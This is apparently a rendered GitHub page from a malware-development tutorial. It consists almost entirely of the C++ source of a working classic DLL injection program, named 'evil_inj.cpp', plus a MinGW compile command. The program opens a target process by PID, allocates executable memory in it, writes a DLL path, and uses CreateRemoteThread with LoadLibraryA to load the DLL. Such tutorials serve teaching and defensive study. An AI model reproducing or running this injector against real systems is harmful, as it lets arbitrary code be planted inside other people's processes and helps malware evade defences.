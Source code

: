  - example-2.cpp  
  
```cpp  
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```  

## Compile it...  

```  
x86_64-w64-mingw32-gcc -O2 example-2.cpp -o example-2.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```  
